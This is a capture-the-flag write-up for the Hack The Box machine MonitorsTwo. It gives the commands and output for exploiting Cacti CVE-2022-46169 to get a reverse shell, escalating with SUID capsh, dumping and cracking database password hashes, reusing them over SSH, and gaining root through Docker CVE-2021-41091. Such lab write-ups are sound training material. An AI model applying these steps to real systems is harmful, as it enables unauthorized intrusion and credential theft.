


# MonitorsTwo HTB

## Overview

---

> MonitorsTwo is an Easy Linux box that involves exploiting an outdated version of Cacti. This exploit allows to gain a shell within a Docker container. The container also hosts a MariaDB database that stores user credentials, which are reused for SSH access. Finally, to escalate privileges to root a vulnerability in the Docker engine is exploited.

---

## Enumeration

---

### Open Ports

Found two open ports using nmap:

-   port 22 → SSH
-   port 80 → HTTP ( Nginx )

```bash
# Nmap 7.93 scan initiated Sat May 27 18:43:07 2023 as: nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.11.211 10.10.11.211
Nmap scan report for 10.10.11.211
Host is up (0.060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 27 18:43:18 2023 -- 1 IP address (1 host up) scanned in 10.65 seconds

```

### port 80 - HTTP

According to the headers, the application is PHP-based and has a `Cacti` cookie.

```bash
> http -ph 10.10.11.211
HTTP/1.1 200 OK
...snip...
Server: nginx/1.18.0 (Ubuntu)
Set-Cookie: Cacti=5858d37213025b985bb3a40be5837333; path=/; HttpOnly; SameSite=Strict
...snip...
X-Powered-By: PHP/7.4.33

```

The index directs to a login page for [Cacti](https://cacti.net/). Additionally, it mentions the version of the software → v1.2.22

> Cacti provides a robust and extensible operational monitoring and fault management framework for users around the world. It is also a complete network graphing solution designed to harness the power of RRDTool's data storage and graphing functionality.



---

## Foothold

---

<!-- Upon searching the documentation for default passwords didn't find anything. Although a post on the [forum](https://forums.cacti.net/viewtopic.php?t=60897) mentioned `admin:admin` and those credentials work

 -->

Cacti version 1.2.22 is vulnerable to [CVE-2022-46169](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/), which allows unauthenticated users to execute arbitrary commands with the same privileges as the web server process. This vulnerability comprises two issues: an authentication bypass in `remote.php` and a command injection due to the `poller_id` parameter used with [proc_open()](https://www.php.net/manual/en/function.proc-open.php).

Found a [PoC for the CVE](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit) on GitHub, which includes a built-in feature to spawn a reverse shell.

```bash
> python cacti.py
Enter the target address (like 'http://123.123.123.123:8080')   http://10.10.11.211/
Checking vulnerability...
App is vulnerable
Brute forcing id...
Enter your IPv4 addressed  10.10.14.75
Enter the port you want to listen on   9005
Delivering payload...
```

Once the vulnerability in Cacti is exploited, I get a shell as the user `www-data` since Cacti is run as www-data.

```bash
> pc -lp 9005
[19:40:25] Welcome to pwncat 🐈!
[19:51:00] received connection from 10.10.11.211:46380
[19:51:01] 0.0.0.0:9001: upgrading from /usr/sbin/nologin to /bin/bash
[19:51:03] 10.10.11.211:46380: registered new host w/ db
(local) pwncat$
(remote) www-data@50bca5e748b0:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@50bca5e748b0:/var/www/html$
```

There's also a metasploit module available for this CVE, `exploit/linux/http/cacti_unauthenticated_cmd_injection`

---

## Privilege Escalation

---

### Container root escalation

It seems Cacti is being hosted in a Docker container.

-   The presence of a `.dockerenv` file and an `entrypoint.sh` script in the root directory.
-   The IP address is of the format 172.x.x.x
-   The hostname resembles a container ID, which is a common naming convention in Docker environments.
-   It is a restricted environment, basic commands like ip or ifconfig are not available



(remote) www-data@50bca5e748b0:/$ cat /etc/hosts
127.0.0.1 localhost
::1 localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.19.0.3 50bca5e748b0
(remote) www-data@50bca5e748b0:/$ l
total 452
drwxr-xr-x 1 root root 4096 Mar 21 10:49 .
drwxr-xr-x 1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x 1 root root 0 Mar 21 10:49 .dockerenv
...snip...
...snip...
(remote) www-data@50bca5e748b0:/$ ip a
bash: ip: command not found
(remote) www-data@50bca5e748b0:/$ ifconfig
bash: ifconfig: command not found



The container doesn't have `sudo`, but it does have a few binaries with the SUID bit set and owned by root.



(remote) www-data@50bca5e748b0:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/bash
/bin/su



The `capsh` binary is uncommon. Using the exploit from [GTFObins](https://gtfobins.github.io/gtfobins/capsh/), can escalate to root within the container.

Normally, processes have the same real-uid (the UID of the user executing the binary) and effective-uid (the UID of the owner). However, in the case of binaries with the SUID bit set, the effective-uid is changed to the file's owner, while the real-uid remains the same, essentially granting the processes escalated privileges.

```bash
(remote) www-data@50bca5e748b0:/$ capsh --gid=0 --uid=0 --
root@50bca5e748b0:/# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@50bca5e748b0:/#
```

The `entrypoint.sh` file is executed during the container startup and is accessible only to the root user. It can provide valuable information about the container's configuration and initialization process.

```bash
(remote) www-data@50bca5e748b0:/$ ls -la entrypoint.sh
-rw-r--r--   1 root root    648 Jan  5 11:37 entrypoint.sh
(remote) root@50bca5e748b0:/# cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
    set -- apache2-foreground "$@"
fi

exec "$@"
```

The `entrypoint.sh` script executes several MySQL commands, which use the credentials `root:root` to access the MariaDB database. With these credentials, it is possible to log into the database and extract the password hashes from the `user_auth` table. The database consists of multiple tables, but the `user_auth` table is particularly interesting as it contains usernames and corresponding passwords.

```bash
MySQL [cacti]> describe user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
| username               | varchar(50)           | NO   | MUL | 0       |                |
| password               | varchar(256)          | NO   |     |         |                |
...snip...
...snip...
```

The `user_auth` table contains password hashes for a new user named Marcus.

```bash
MySQL [cacti]> select id,username,password from user_auth;
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
|  3 | guest    | 43e9a4ab75570f5b                                             |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----+----------+--------------------------------------------------------------+

```

The password hash for marcus can be cracked using JTR and the `rockyou` wordlist → `marcus:funkymonkey`.

```bash
> john hashes --format=bcrypt --show
marcus:funkymonkey
```

Testing for password reuse, the credentials are reused on SSH.

```bash
> pc marcus:funkymonkey@10.10.11.211
[20:19:40] Welcome to pwncat 🐈!
[20:19:43] 10.10.11.211:22: registered new host w/ db
You have mail.
(local) pwncat$
(remote) marcus@monitorstwo:/home/marcus$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```

### Docker engine exploit

After some enumeration, found a mail in the `/var/mail` directory addressed to Marcus. The mail highlights three different vulnerabilities. While the first two vulnerabilities may not be relevant here, the third vulnerability might be worth exploring further.

```bash
(remote) marcus@monitorstwo:/tmp/abraxas$ ls -la /var/mail
total 12
drwxrwsr-x  2 root mail 4096 Mar 22 11:46 .
drwxr-xr-x 13 root root 4096 Jan  9 10:03 ..
-rw-r--r--  1 root mail 1809 Oct 18  2021 marcus
(remote) marcus@monitorstwo:/tmp/abraxas$ cat /var/mail/marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

[CVE-2021-41091](https://security.snyk.io/vuln/SNYK-SLES150-DOCKER-2661076) is a vulnerability in the Docker engine (v20.10.9) that allows unprivileged users to execute programs with incorrect permissions within the container. This vulnerability occurs when the UID of the user on the host matches the UID of the file owner within the container.

Found a [PoC](https://github.com/UncleJ4ck/CVE-2021-41091) for the CVE on GitHub. To get root privileges it's necessary to set the `SUID` bit on `/bin/bash` before executing the exploit script.

> [!tip] Remember
> Need to set the SUID bit on the docker container before executing the exploit

Running the exploit script tells us that the `/var/lib/docker/overlay2/c41d5854e....a372cb2f1/merged` is vulnerable to CVE-2021-41091, but it doesn't give a root shell.



(remote) marcus@monitorstwo:/tmp/abraxas$ bash privEsc.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit



To get a privileged shell, need to navigate to the vulnerable mount and execute its bash binary in privileged mode. Doing so will give Marcus effective root permissions.

```bash
(remote) marcus@monitorstwo:/tmp/abraxas$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
bin   dev            etc   lib    media  opt   root  sbin  sys  usr
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   tmp  var
(remote) marcus@monitorstwo:/tmp/abraxas$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
(remote) marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
(remote) root@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) egid=0(root) groups=0(root),1000(marcus)
(remote) root@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged# cd /root
(remote) root@monitorstwo:/root# ls -al root.txt
-rw-r-----  1 root root   33 May 28 00:26 root.txt
(remote) root@monitorstwo:/root#
```

Pwned!!

<!--  -->

---

# Related Links

-   [Cacti: Unauthenticated Remote Code Execution | Sonar](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/)
-   [ariyaadinatha/cacti-cve-2022-46169-exploit: This is poc of CVE-2022-46169 authentication bypass and remote code execution](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit)
-   [capsh | GTFOBins](https://gtfobins.github.io/gtfobins/capsh/)
-   [Improper Preservation of Permissions in docker | CVE-2021-41091 | Snyk](https://security.snyk.io/vuln/SNYK-SLES150-DOCKER-2661076)
-   [UncleJ4ck/CVE-2021-41091: POC for CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)
